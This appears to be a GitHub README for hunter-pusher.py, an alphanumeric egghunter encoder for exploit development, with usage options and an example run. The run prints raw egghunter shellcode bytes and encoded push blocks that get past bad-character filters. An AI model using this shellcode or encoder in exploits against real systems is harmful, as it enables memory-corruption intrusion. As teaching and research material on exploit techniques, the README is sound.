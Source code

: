 ## hunter-pusher.py
**hunter-pusher.py** is an experimental alphanumeric egghunter encoder. This tool allows the user to generate one of several egghunters listed in Skape's (Matt Miller's) <a href="http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf" target="_blank">paper</a> titled, _Safely Searching Process Virtual Address Space_, with several customization options. These options include user-defined padding bytes, tag, and bad characters to exclude.  

The output is formatted in blocks to represent the manipulation of the **eax** register reproducing four bytes of the chosen egghunter at a time. This egghunter encoding technique is used in situations where the attacker's raw egghunter is corrupted in memory. Details are covered in this Corelan <a href="https://www.corelan.be/index.php/2010/01/09/exploit-writing-tutorial-part-8-win32-egg-hunting/" target="_blank">article</a> and piggybacked in a personal <a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-1" target="_blank">blog post</a>.

Feedback is always welcome.



# Usage
```
usage: hunter-pusher.py [-h] [-b BAD CHARS] [-e #] [-p PAD] [-t TAG]

Alphanumeric egghunter stack pusher

optional arguments:
  -h, --help            show this help message and exit
  -b BAD CHARS, --bad BAD CHARS
                        Bad characters to exclude in payload
                        e.g. '\x00\xb4\xd9'
                        Default: Non-alphanumeric characters
  -e #, --egghunter #   Specific egghunter to encode:
                        0: Windows - SEH - 60 bytes
                        1: Windows - IsBadReadPtr - 40 bytes
                        2: Windows - NtDisplayString - 32 bytes
                        3: Windows - NtAccessCheckAndAuditAlarm - 32 bytes
                        4: Linux - access(2) - 40 bytes
                        5: Linux - access(2) revisited - 36 bytes
                        6: Linux - sigaction(2) - 32 bytes
                        Default: 2
  -p PAD, --pad PAD     Byte to pad egghunter with before encoding
                        e.g. '\x90'
                        Default: \x90
  -t TAG, --tag TAG     Four byte tag that egghunter will search for
                        e.g. 'w00t'
                        Default: w00t
```



# Example

**./hunter-pusher.py -b '\x00\x0a\x0d\xd3\xad\xb3\x3f\xff' -e 1 -p '\x41' -t 'w00t'**

These flags specify the generation of an **IsBadReadPtr** egghunter padded with "\x41", using a tag "w00t".
Bad characters as specified by the user will be excluded from the egghunter and will not appear in the _raw form_ (after blocks are pushed onto the stack).

```
Raw egghunter bytes: 33DB6681CBFF0F436A0853B80D5BE777FFD085C075ECB8773030748BFBAF75E7AF75E4FFE7414141

******BLOCK 0*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x5d\x3d\x3e\x3e
\x2d\x5e\x40\x40\x40
\x2d\x5e\x40\x40\x40
\x50
******BLOCK 1*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x70\x2d\x5e\x55
\x2d\x70\x2e\x5e\x55
\x2d\x71\x2e\x5f\x55
\x50
******BLOCK 2*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x57\x6f\x2d\x5d
\x2d\x57\x70\x2e\x5d
\x2d\x57\x70\x2e\x5e
\x50
******BLOCK 3*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x45\x45\x2e\x26
\x2d\x45\x45\x2e\x27
\x2d\x46\x45\x2f\x27
\x50
******BLOCK 4*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x2e\x5b\x6c\x2d
\x2d\x2e\x5c\x6d\x2d
\x2d\x2f\x5c\x6d\x2d
\x50
******BLOCK 5*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x55\x64\x28\x6a
\x2d\x56\x65\x28\x6a
\x2d\x56\x65\x29\x6b
\x50
******BLOCK 6*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x51\x36\x5d\x2d
\x2d\x51\x37\x5d\x2d
\x2d\x51\x37\x5e\x2d
\x50
******BLOCK 7*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x32\x52\x39\x6d
\x2d\x32\x52\x39\x6d
\x2d\x32\x53\x3a\x6d
\x50
******BLOCK 8*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x67\x55\x4f\x3e
\x2d\x67\x55\x50\x3e
\x2d\x67\x55\x50\x40
\x50
******BLOCK 9*******
\x25\x4a\x4d\x4e\x55
\x25\x35\x32\x31\x2a
\x2d\x44\x61\x32\x2a
\x2d\x44\x61\x33\x2a
\x2d\x45\x62\x33\x2a
\x50
```



# Credits
This tool uses a Python translation of <a href="https://github.com/gap-system/gap/blob/master/lib/combinat.gi" target="_blank">combinat.gi</a> from <a href="https://www.gap-system.org/index.html" target="_blank">GAP</a>, an open-source system for computational discrete algebra used in research and teaching.



# Creation Process
The creation of **hunter-pusher.py** is documented in the Building an Alphanumeric Encoder series at: <a href="https://datkev.github.io" target="_blank">https://datkev.github.io</a>

- <a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-1" target="_blank">Building an Alphanumeric Encoder Part 1 - The Manual Method</a>
- <a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-2" target="_blank">Building an Alphanumeric Encoder Part 2 - Integer Partitions</a>
- <a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-3" target="_blank">Building an Alphanumeric Encoder Part 3 - Building the Encoder</a>
- <a href="https://datkev.github.io/page/building-an-alphanumeric-encoder-part-4" target="_blank">Building an Alphanumeric Encoder Part 4 - Testing the Encoder</a>

Part 3 of the series is dedicated to code logic.
